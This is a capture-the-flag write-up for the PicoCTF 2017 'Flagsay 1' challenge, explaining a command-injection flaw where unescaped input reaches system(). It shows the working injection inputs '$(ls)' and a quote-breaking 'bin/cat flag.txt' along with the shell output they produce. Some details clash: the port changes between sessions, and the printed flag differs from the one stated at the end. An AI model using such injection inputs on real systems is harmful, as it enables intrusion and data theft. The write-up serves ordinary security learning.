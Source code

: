# PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

Testing the program with random input,

	$ nc shell2017.picoctf.com 12442
	"aaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaa                              /     
	            //                                   /      
	           //                                   /       
	          //                                   /        
	         //                                   /         
	        //                                   /          
	       //___________________________________/           
	      //                                                
	     //                                                 
	    //                                                  
	   //                                                   
	  //                                                    
	 //                                                     


However, input is unescaped, so we can pass on a shell command like

    $ nc shell2017.picoctf.com 51865
    $(ls)
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //flagsay-1
    flagsay-1_no_aslr
    flag.txt
    xinetd_wrapper.sh                              /     
                //                                   /      
               //                                   /       
              //                                   /        
             //                                   /         
            //                                   /          
           //___________________________________/           
          //                                                
         //                                                 
        //                                                  
       //                                                   
      //                                                    
     //

Then, we can do something like this

    $ nc shell2017.picoctf.com 12442
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"bin/cat flag.txt
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/
	6116b5c621137949e3f70fd31f7cc29a
	//bin/cat: /: Is a directory
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

Therefore, the flag is `2ab2050bf32e84975a10d774a919e1d0`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTcxMDg2OTg4MV19
-->